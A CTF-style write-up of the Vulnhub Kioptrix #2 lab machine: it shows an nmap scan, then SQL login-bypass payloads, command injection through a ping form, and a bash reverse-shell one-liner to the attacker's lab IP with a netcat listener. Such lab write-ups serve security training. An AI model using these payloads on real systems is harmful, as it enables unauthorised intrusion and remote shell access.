 ```yaml
---
layout: single_c
title:  "Vulnhub - Kioptrix #2 Writeup"
date:   2020-01-39 10:43:16 +0530
categories: OSCP
tags: Vulnhub
classes: wide
---
```

### [Vulnhub - Kioptrix #2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

## Enumeration

#### Nmap
```bash
Nmap scan report for 192.168.71.129
Host is up, received arp-response (0.0056s latency).
Scanned at 2020-01-19 12:22:25 IST for 119s
Not shown: 994 closed ports
Reason: 994 resets
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 64 OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|   1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAIEA4j5XFFw9Km2yphjpu1gzDBglGSpMxtR8zOvpH9gUbOMXXbCQeXgOK3rs4cs/  
j75G54jALm99Ky7tgToNaEuxmQmwnpYk9bntoDu9SkiT/hPZdOwq40yrfWIHzlUNWTpY3okTdf/YNUAdl4NOBOYbf0x/dsAdHHqSWnvZmruFA6M=
|_sshv1: Server supports SSHv1
80/tcp   open  http       syn-ack ttl 64 Apache httpd 2.0.52 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    syn-ack ttl 64 2 (RPC #100000)
443/tcp  open  ssl/https? syn-ack ttl 64
|_ssl-date: 2020-01-19T04:44:13+00:00; -2h09m12s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
631/tcp  open  ipp        syn-ack ttl 64 CUPS 1.1
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      syn-ack ttl 64 MySQL (unauthorized)
MAC Address: 00:0C:29:48:8C:63 (VMware)

Host script results:
|_clock-skew: -2h09m12s
```

That's a lot of attack surface to cover. Let's start with the web application on port 80.

Looks like a login page for administrators. We can try `sql` injection or `sql` login bypass.  
We can bypass the login using `' or 1#` or `' or 1-- `

#### MySQL Login code (an be found after getting a shell)
```sql
$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
```
We can see that we can escape from the query using a `'` and then return a true value using `or 1` and then comment out the rest using `#` or `-- `

## Low Privilege Shell
Login has been successfully bypassed and we are presented with another page, asking for an ip address to ping.  
We can inject any command here by appending a `;` followed by our code.  
Unfortunately there was no `netcat` installed. But we can get reverse shell using `bash`

```bash
bash -i >& /dev/tcp/192.168.71.128/4444 0>&1
```
Don't forget to start a `nc` listener.

```bash
root@kali:~/Desktop/vulnhub/kioptix2# nc -lvp 4444
listening on [any] 4444 ...
192.168.71.129: inverse host lookup failed: Unknown host
connect to [192.168.71.128] from (UNKNOWN) [192.168.71.129] 49917
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
```
And we have a shell.